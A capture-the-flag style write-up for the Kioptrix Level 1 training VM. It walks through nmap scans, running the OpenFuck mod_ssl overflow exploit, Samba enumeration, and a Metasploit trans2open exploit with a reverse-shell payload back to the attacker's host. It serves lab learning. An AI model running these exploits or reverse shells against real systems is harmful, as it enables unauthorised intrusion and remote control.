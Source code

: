 # writeup kioptrix level 1
  This Kioptrix VM Image are easy challenges. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways then one to successfully complete the challenges.
  
# Download vm-machine from vulnhub website:
link: https://www.vulnhub.com/entry/kioptrix-level-1-1,22/ .

# Solution:
  [+] At the beginning, we need to perform ping sweep to discover network devices that alive. <br>
    command: 
    <code>sudo nmap -sn 192.168.1.0/24 </code> <br><br>
   <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/ping_sweep.png"/>
   <br><br>
   
  [+] After finding target IP, we need to perform port scan and banner graabbing over TCP through nmap. <br>
    command: <code>sudo nmap -sS -sV -O 192.168.1.104 -p-</code> <br><br>
    <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/nmap_portscan_banner_grabbing.png"/>
    <br><br>
    
  [+] Now, we can performing vulnerability assessment through doing search about vulnerabilities that can be found according to protocols versions.  <br>
    that depend on your search skill :D. <br>
    i found some vulneravilities:- <br>
    1) buffer-over Apache mod_ssl < 2.8.7 OpenSSL <br>
     a) download openfuck script from: <br>
     <a href="https://www.exploit-db.com/exploits/764/">exploit</a> <br>
     b) or here: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/openfuck.c"> Github </a> <br>
     c) or modified script: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/openfuck_modified.c ">Modifeid script:Github</a><br>
     d) you can download the exploit script to using it.<br>
     e) command: <code>./OpenFuck 0x6b 192.168.1.106</code> <br>
     <pre>
     -- [1] note: if any problem occur during running of the script, you will find some solution here. <br>
     -- [1] link: <a href="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/additional_content/install_openfuck.md "> follow this instructions</a> <br>
     </pre>
      -- [1] POC: <br>
     <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/overflow.png"/>
    <br><br>
      -- [2] samba: <br>
      -- [2] enumeration commands: <br>
          <code> enum4linux 192.168.1.104 </code> <br>
      -- [2] detected samba version: <br>
          <code> msfconsole </code> <br>
          <code> msf > search smb_version </code> <br>
          <code> msf > use auxiliary/scanner/smb/smb_version </code> <br>
          <code> msf auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.1.104 </code> <br>
          <code> msf auxiliary(scanner/smb/smb_version) > exploit  </code> <br>
          <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/samba_version.png"/>
      -- [2] samba 2.2.1a is vulnerable <br>
          command:
            <code> msf > search samba  </code> <br>
            <code> msf > use exploit/linux/samba/trans2open  </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set RHOST 192.168.1.104 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set RPORT 139 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set payload generic/shell_reverse_tcp </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set LHOST 192.168.1.105 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > set LPORT 4444 </code> <br>
            <code> msf exploit(linux/samba/trans2open) > exploit </code> <br>
      -- [2] POC:
            <img src="https://github.com/BassamMaged/vulnhub_write-ups/blob/master/kioptrix_level_1/pics/samba_overflow.png"/>
      <pre>we are do the best to keep it up-to-date and adding more vulnerabilities if we found it at this machine.
      Best wishes,,</pre>
